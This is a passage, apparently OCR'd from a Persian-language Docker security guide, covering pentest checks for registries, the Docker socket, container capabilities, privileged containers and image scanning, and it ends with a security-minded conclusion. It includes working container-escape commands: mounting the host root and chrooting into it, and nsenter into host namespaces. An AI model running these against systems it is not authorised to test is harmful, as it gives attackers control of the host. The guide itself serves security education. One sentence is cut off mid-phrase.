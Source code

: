     - **احراز هویت**: بررسی اینکه آیا احراز هویت برای دسترسی به رجیستری لازم است یا خیر با ارسال درخواست curl:
        
        ```bash
        curl -k https://<registry_IP>:5000/v2/_catalog
        ```
        
- **افزایش امتیاز / خروج از کانتینر**:
    - **بررسی Socket داکر**: بررسی اینکه آیا Socket داکر (`/var/run/docker.sock`) درون کانتینر متصل شده است که می‌تواند به خروج منجر شود اگر نادرست پیکربندی شده باشد. جستجوی socket درون کانتینر: در صورت یافتن، می‌توانید با دیمون داکر میزبان ارتباط برقرار کرده و به طور بالقوه از کانتینر خارج شوید:
        
        ```bash
        find / -name docker.sock
        ```
        
        ```bash
        docker run -it -v /:/host/ ubuntu:18.04 chroot /host/ bash
        ```
        
- **افزایش قابلیت‌های کانتینر**:
    - بررسی قابلیت‌های خطرناک مانند `CAP_SYS_ADMIN`، `CAP_NET_RAW` یا `CAP_SYS_PTRACE`. این‌ها می‌توانند به افزایش امتیاز درون کانتینر کمک کنند. می‌توانید این قابلیت‌ها را با استفاده از: اگر وجود داشته باشند، این قابلیت‌ها می‌توانند راهی برای خروج از کانتینر فراهم کنند.
        
        ```bash
        capsh --print
        ```
        
- **کانتینرهای با دسترسی بالا**:
    - اگر کانتینر با پرچم `privileged` یا قابلیت‌های اضافی (مانند `cap-add=ALL`) اجرا شود، تست کنید که آیا می‌توانید به فضای نام میزبان بروید:
        
        ```bash
        nsenter --target 1 --mount --uts --ipc --net --pid -- bash
        ```
        
- **آسیب‌پذیری‌های کانتینر**:
    - استفاده از ابزارهایی مانند `grype` برای اسکن آسیب‌پذیری‌های شناخته شده (CVEs) در تصویر کانتینر:
        
        ```bash
        grype <image>
        ```
        

## جمع‌بندی:

داکر یک ابزار بسیار قدرتمند برای توسعه و اجرای نرم‌افزارهاست، اما مانند هر ابزار دیگری باید با دقت و آگاهی از جوانب امنیتی استفاده شود. با رعایت نکات امنیتی و بررسی دوره‌ای آسیب‌پذیری‌ها، می‌توان از این پلتفرم به بهترین شکل و با امنیت بالا استفاده کرد.
</div>
